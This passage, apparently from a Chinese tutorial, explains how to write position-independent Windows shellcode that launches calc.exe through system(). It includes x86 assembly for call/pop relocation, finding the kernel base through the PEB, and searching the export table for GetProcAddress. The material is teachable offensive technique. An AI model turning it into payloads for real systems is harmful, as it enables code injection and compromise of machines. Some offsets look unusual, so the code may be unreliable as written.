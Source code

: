 ```
			char functionname[16] = "system";//-60
			char info[16] = "calc.exe";//-44
			char loadlibraryEx[16] = "LoadLibraryExA";//-28
			DWORD pLoadLibraryExA = 0;//-12
			DWORD kernelBase = 0;//-8
			DWORD getProcAddr = 0;//-4
```

### 代码执行区的设计：

首先需要进行重定位，通过
```asm
call A
				A :
				pop edi		
				//可能会有一定偏移
				sub edi,5
				mov [edi-80], edi;//assign current address.
```
将当前内存地址保存到edi中，此时edi先低地址偏移80个单位就是数据区中addOfcurrent所在的内存单元。注意edi需要先减去5个字节，因为call和pop指令占据了5个字节。减去5个字节后，edi就是执行数据区getProcAddr的末尾。

接着获取KernalBase32的基地址：
```a
mov eax, fs:[30h]
			mov eax, [eax + 0ch]
			mov eax, [eax + 1ch]
			mov eax, [eax]
				mov eax, [eax + 8h]
			mov [edi-8], eax;
```
这主要是通过PEB和TEB的结构来获取的，这种方法在Windows10,Windows7以及XP都可以正确的获取KernalBase32基地址。

接着搜索GetProcAddress函数的地址。
```asm
				mov edi, eax
					mov eax, [edi + 3Ch]
					mov edx, [edi + eax + 78h]
					add edx, edi; edx = 引出表地址
					mov ecx, [edx + 18h]; ecx = 输出函数的个数
					mov ebx, [edx + 20h]
					add ebx, edi; ebx ＝函数名地址，AddressOfName

				search :
				dec ecx
					mov esi, [ebx + ecx * 4]
					add esi, edi; 依次找每个函数名称
					; GetProcAddress
					mov eax, 0x50746547
					cmp[esi], eax; 'PteG'
					jne search
					mov eax, 0x41636f72
					cmp[esi + 4], eax; 'Acor'
					jne search
					; 如果是GetProcA，表示找到了
					mov ebx, [edx + 24h]
					add ebx, edi; ebx = 序号数组地址, AddressOf
					mov cx, [ebx + ecx * 2]; ecx = 计算出的序号值
					mov ebx, [edx + 1Ch]
					add ebx, edi; ebx＝函数地址的起始位置，AddressOfFunction
					mov eax, [ebx + ecx * 4]
					add eax, edi; 利用序号值，得到出GetProcAddress的地址
					sub eax, 0xb0
					pop edi
					mov ebx, edi;
```